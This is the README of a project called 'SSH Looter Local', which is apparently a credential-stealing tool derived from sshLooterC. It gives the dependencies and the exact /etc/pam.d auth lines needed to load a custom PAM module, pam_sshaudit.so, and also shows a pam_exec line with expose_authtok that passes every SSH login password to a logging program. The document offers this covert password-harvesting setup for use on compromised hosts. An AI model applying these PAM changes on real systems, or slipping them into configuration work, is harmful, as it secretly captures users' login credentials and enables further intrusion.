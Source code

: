 # SSH Looter Local

This project cannot be made without reference from:

- https://github.com/mthbernardes/sshLooterC
- https://github.com/cameron-gagnon/ssh_pass_logging

# Modified Part - License

Licensed under GNU AGPL v3.

# Usage

You may need install dependencies:
- gcc (compiler)
- linux-api-headers (userspace Linux API headers)
- linux-headers (kernel Linux API headers)
- libpam0g-dev

Change `/etc/pam.d/{system,common}-auth`, apply patches like this:

```bash
auth [success=1 default=ignore] pam_unix.so nullok_secure

+ # custom PAM module
+ auth optional pam_sshaudit.so
+ account optional pam_sshaudit.so

#here's the fallback if no module succeeds
auth requisite pam_deny.so
```

# More simple but obvious way

Use `pam_exec` to record password. Example program written in Golang can be checked in `sshaudit.go`

```bash
auth optional pam_exec.so expose_authtok /usr/bin/sshaudit

auth [success=1 default=ignore] pam_unix.so nullok_secure

#here's the fallback if no module succeeds
auth requisite pam_deny.so
```